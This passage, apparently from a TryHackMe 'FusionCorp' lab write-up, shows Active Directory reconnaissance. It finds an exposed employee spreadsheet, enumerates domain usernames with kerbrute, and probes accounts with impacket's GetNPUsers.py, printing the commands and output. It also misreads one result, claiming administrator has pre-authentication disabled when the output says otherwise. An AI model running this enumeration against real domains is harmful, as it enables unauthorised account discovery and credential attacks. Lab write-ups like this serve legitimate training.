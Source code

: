 ```console
Img                     [Status: 301, Size: 147, Words: 9, Lines: 2]
JS                      [Status: 301, Size: 146, Words: 9, Lines: 2]
```

- Backup looks interesting. So, let us check it out.

## Checking /backup
![image](/assets/images/thm/fusioncorp/Pasted image 20210616143516.png)
A file named **employees.ods** is present.

## Downloading and checking content
![image](/assets/images/thm/fusioncorp/Pasted image 20210616143655.png)

- This file contains the name and usernames of the employees. 
- The username format is first_letter:last_name.

Since we have a bunch of usernames, let us check if they are valid usernames on the domain.
## Using kerbrute
```console
reddevil@ubuntu:~/Documents/tryhackme/fusioncorp$ /opt/kerbrute/kerbrute userenum --dc fusion.corp -d fusion.corp username 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 06/16/21 - Ronnie Flathers @ropnop

2021/06/16 14:39:48 >  Using KDC(s):
2021/06/16 14:39:48 >   fusion.corp:88

2021/06/16 14:39:48 >  [+] VALID USERNAME:       lparker@fusion.corp
2021/06/16 14:39:49 >  Done! Tested 11 usernames (1 valid) in 0.561 seconds
```
We found a hit and lparker is a valid user on the box.

## Understanding how we can enumerate usernames
```console
reddevil@ubuntu:~/Documents/tryhackme/fusioncorp$ /usr/share/doc/python3-impacket/examples/GetNPUsers.py -usersfile username -no-pass -request fusion.corp/
/home/reddevil/.local/lib/python2.7/site-packages/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
  from cryptography import x509
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```
For the demonstration purpose, I am using impacket script GetNPUsers.py.
We can clearly see the difference on the response for different users.
- For administrator ( Pre Auth is disabled) which means this is a valid user on the box
- For user-does-not-exist ( Client Not found on kerberos database) which means this user is not a valid user
- Guest (Client Credentials are revoked) which means user is valid

